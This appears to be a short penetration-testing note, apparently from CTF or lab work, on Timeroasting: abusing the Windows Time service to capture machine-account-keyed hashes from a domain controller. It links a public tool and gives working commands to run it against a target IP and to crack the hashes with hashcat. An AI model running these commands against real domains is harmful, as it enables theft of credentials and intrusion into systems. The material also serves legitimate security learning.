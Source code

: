 # Timeroasting

A technique that abuses the Microsoft SNTP/Windows Time service: when a client requests time, the DC responds with a blob signed/HMAC’d using a machine account key. That blob can be captured and cracked offline to recover the machine account password (or key material). Not the same as standard NTLM/AS-REP, but same offline-crack idea.

***

**Exploit**

[github.com/SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast.git)

```bash
python timeroast.py 10.10.11.75
```

**Crack hashes**

```bash
hashcat -m 31100 hashes.txt /usr/share/wordlists/rockyou.txt
```
